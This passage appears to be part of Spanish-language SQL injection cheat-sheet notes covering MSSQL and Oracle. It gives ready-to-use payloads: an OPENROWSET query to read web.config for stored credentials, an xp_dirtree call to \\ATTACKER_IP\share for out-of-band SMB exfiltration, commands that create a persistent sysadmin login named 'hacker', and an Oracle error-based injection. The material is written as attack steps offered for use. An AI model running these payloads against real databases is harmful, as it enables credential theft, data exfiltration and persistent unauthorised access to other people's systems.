 #### **c) Uso de `OPENROWSET` para Leer Archivos**

>Si `xp_cmdshell` está bloqueada, podemos leer archivos con:

```
'SELECT * FROM OPENROWSET(BULK 'C:\inetpub\wwwroot\web.config', SINGLE_CLOB) AS FileContents;--  
```
Esto es útil para extraer credenciales almacenadas en `web.config`.

#### **d) Abuso de Extended Stored Procedures (`xp_dirtree`)**

Podemos hacer un **out-of-band (OOB) exfiltration** filtrando datos a un recurso SMB controlado:

```
'EXEC master..xp_dirtree '\\ATTACKER_IP\share'; --
```
Si podemos capturar la solicitud SMB, significa que el servidor intentó conectarse con nosotros.

---
### **4. Persistencia y Escalada**

Si tenemos acceso administrativo, podemos crear una cuenta persistente en la base de datos:

```
'CREATE LOGIN hacker WITH PASSWORD = 'P@ssw0rd'; --
'EXEC sp_addsrvrolemember 'hacker', 'sysadmin'; -- 
```

Esto te da acceso completo incluso si cierran tu conexión inicial.


## Oeacle

### **1. Diferencias Clave en Oracle**

-   **No soporta `UNION SELECT` de la misma manera que MySQL o MSSQL.**
-   **No tiene `pg_sleep()` ni `WAITFOR DELAY`, pero usa `DBMS_PIPE.RECEIVE_MESSAGE`.**
-   **Las tablas `ALL_USERS`, `ALL_TABLES` y `ALL_TAB_COLUMNS` sirven para enumeración.**
-   **Ejecutar comandos en el sistema es más difícil, pero posible con `DBMS_SCHEDULER`.**

---

### **2. Enumeración de la Base de Datos**

Si puedes hacer consultas, pero no ves la salida directamente, puedes probar error-based o time-based.

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:

```
' || (SELECT 1/0 FROM dual) || '  
```
>Si la aplicación devuelve el error, podemos filtrar información poco a poco.
